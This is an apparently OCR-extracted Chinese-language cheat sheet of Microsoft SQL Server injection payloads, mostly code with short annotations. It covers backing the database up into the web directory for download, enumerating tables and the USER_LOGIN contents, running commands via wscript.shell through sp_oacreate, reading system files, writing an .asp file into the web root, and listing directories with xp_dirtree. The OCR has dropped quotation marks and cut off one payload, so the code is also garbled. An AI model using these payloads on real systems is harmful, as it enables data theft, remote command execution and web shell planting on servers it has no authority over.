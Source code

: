 把数据库备份到网页目录：下载 
```
;declare @a sysname; set @a=db_name();backup database @a to disk=e:\web\down.bak;--

and 1=(Select top 1 name from(Select top 12 id,name from sysobjects where xtype=char(85)) T order by id desc) 
and 1=(Select Top 1 col_name(object_id(USER_LOGIN),1) from sysobjects) 参看相关表。 
and 1=(select user_id from USER_LOGIN) 
and 0=(select user from USER_LOGIN where user>1)

-=- wscript.shell example -=- 
declare @o int 
exec sp_oacreate wscript.shell, @o out 
exec sp_oamethod @o, run, NULL, notepad.exe 
; declare @o int exec sp_oacreate wscript.shell, @o out exec sp_oamethod @o, run, NULL, notepad.exe--

declare @o int, @f int, @t int, @ret int 
declare @line varchar(8000) 
exec sp_oacreate scripting.filesystemobject, @o out 
exec sp_oamethod @o, opentextfile, @f out, c:\boot.ini, 1 
exec @ret = sp_oamethod @f, readline, @line out 
while( @ret = 0 ) 
begin 
print @line 
exec @ret = sp_oamethod @f, readline, @line out 
end

declare @o int, @f int, @t int, @ret int 
exec sp_oacreate scripting.filesystemobject, @o out 
exec sp_oamethod @o, createtextfile, @f out, c:\inetpub\wwwroot\foo.asp, 1 
exec @ret = sp_oamethod @f, writeline, NULL,


declare @o int, @ret int 
exec sp_oacreate speech.voicetext, @o out 
exec sp_oamethod @o, register, NULL, foo, bar 
exec sp_oasetproperty @o, speed, 150 
exec sp_oamethod @o, speak, NULL, all your sequel servers are belong to,us, 528 
waitfor delay 00:00:05

; declare @o int, @ret int exec sp_oacreate speech.voicetext, @o out exec sp_oamethod @o, register, NULL, foo, bar exec sp_oasetproperty @o, speed, 150 exec sp_oamethod @o, speak, NULL, all your sequel servers are belong to us, 528 waitfor delay 00:00:05--

xp_dirtree适用权限PUBLIC 
exec master.dbo.xp_dirtree c:\ 返回的信息有两个字段subdirectory、depth。Subdirectory字段是字符型，depth字段是整形字段。 
create table dirs(paths varchar(100), id int) 
```

建表，这里建的表是和上面xp_dirtree相关连，字段相等、类型相同。
``` 
insert dirs exec master.dbo.xp_dirtree c:\ 
```
